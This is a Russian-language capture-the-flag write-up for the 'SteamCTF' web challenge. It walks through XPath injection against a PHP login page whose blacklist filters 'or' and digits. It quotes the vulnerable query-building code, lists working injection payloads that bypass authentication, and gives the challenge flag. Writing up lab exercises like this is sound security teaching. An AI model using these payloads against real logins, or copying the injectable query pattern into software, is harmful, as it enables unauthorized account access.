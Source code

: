 ## SteamCTF

| Событие | Название | Категория | Сложность |
|:--------|:---------|:----------|----------:|
| final_isetCTF 2020 | SteamCTF | Web | ........ |

### Описание
> Автор: [ @dikidikiday ]
>
> **Записки охранника Игоря:** *день первый*
> 
> Во всей моей профессиональной практике я не находил более ответственного, ленивого,но прилежного сисадмина, чем этот новичок. Он мне сразу не понравился. Ну даже мне понятно, что от рута в консоли не надо работать!! Я вот сижу под своим **Игорь** и всем доволен! Вообще в нашем банке есть особенная система, специально, чтобы не вести таблицу доходов/расходов, но попробуй объясни это новичку...
> В этой системе обращение к элементам **документа**, имеющего древовидную структуру, напоминает взаимодействие с файловой системой **(/)**.
> Всем удобно, никто не жалуется.
> Эту [систему](http://ваш_сайт:1001) создал старый сисадмин Павлик, но его выгнали, из-за этого он ушёл и даже не сказал пароль!!!
> Знаю только, что он фанат Warface. Ээх..поиграть бы..
> Но для начала надо найти пароль, вдруг он его куда-нибудь записал...

### Решение 

Самое сложное и важное -- прочитать условие.
Понимаем, что повествование переключилось, теперь идет не от лица горе-сисадмина, а от лица охранника Игоря. Выделено имя -- на заметку, скорее всего надо будет ломать именно его.
Система, похожая чем-то на БД из прошлых соревнований первого дня.
Документ,имеющий древовидную структуру намекает на **XML документ**.

Гуглим.

**XML (eXtensible Markup Language)** – это всем известный язык разметки, с помощью которого создаются XML документы, имеющие древовидную структуру. 

Пример простейшего XML документа:

```
<?xml version="1.0" encoding="UTF-8"?>
<foo>
<bar param="value"/>
</foo>
```

Гуглим еще.

**XPath (XML Path Language)** – это язык, который предназначен для произвольного обращения к частям XML документа.

О! То, что надо!

По аналогии с первым вебом на прошлых соревнованиях можно предположить, что тут тоже инъекция, тем более такая есть, а автор намекает на это.

Гуглим [туц](https://raz0r.name/articles/vvedenie-v-xpath-inekcii/) и [туц](https://xakep.ru/2008/06/24/44160/)

Представим что у нас есть XML база и аутентификация, основанная на ней:

```
<?xml version='1.0' encoding='ISO-8859-1'?> <users>
    <user>
        <id> 1 </id>
        <username> admin </username>
        <password> xp8th! </password>
    </user>

    <user>
        <id> 2 </id>
        <username> test </username>
        <password> test987 </password>
    </user>

    <user>
        <id> 3 </id>
        <username> bigolnerd </username>
        <password> nerdsneedlovetoo
</password>
</user>
</users>
```

Можно сразу было попробовать вставить кавычку и понять, что это была xpath inj:
```
Warning: SimpleXMLElement::xpath(): Invalid predicate in /var/www/html/index.php on line 561

Warning: SimpleXMLElement::xpath(): xmlXPathEval: evaluation failed in /var/www/html/index.php on line 561
```

`'1'='1` и аналогичные кавычки не работают, также блочатся `or` и цифры.

Зайдя в исходный код страницы, находим ссылку
`<!-- <a href="/index.php/src/">Исходный код</a> -->` на исходный код.

Видим, что пользовательский ввод через поля **login** и **password** фильтруется:

```php
$blacklist = Array('or','0', '1', '2', '3', '4', '5', '6', '7', '8', '9');
``` 

Также, наюблюдаем очень странную проверку верности введённых пользователем данных:

```
        if ($_SERVER['REQUEST_METHOD'] === 'POST'){
          $login = $_POST['login'];
          $pass = $_POST['pass'];
          if(contains($pass, $blacklist) or contains($login, $blacklist)){
              die("Простите, тут запрещено хекать!!");
          }
          else{
            $xml = simplexml_load_file('/users.xml');

            $query = "//users/user[login/text()='$login' and password/text()='$pass']";

            $result = $xml->xpath($query);
            if(!$result){
                echo "Попробуй еще раз! Я верю в тебя!";
            }
            else{
                $user_data = $xml->xpath("//users/user[login/text()='$login']")[0];
                $flag = $user_data->flag;
                echo "Ваш флаг STEAMCTF: ".$flag;
            }
          }
        }
```

Видим, что нам нужно провести инъекцию в поле **password** так, чтобы запрос был верным и выдал хотя бы один результат, а в поле **login** ввести необходимого нам пользователя (из описания задания можно понять, что нам необходим **Игорь**).

Учитывая фильтры, простейшие инъекции:
```
'] | //* | /foo[bar='
'] | /* | /foo[bar='
'] | /users/user | /foo[bar='
```

При этом последний вариант можно вставить только в логин.


**Флаг:**

> flag{xp4tH_I5_jU5T_4_w4rM_uP}
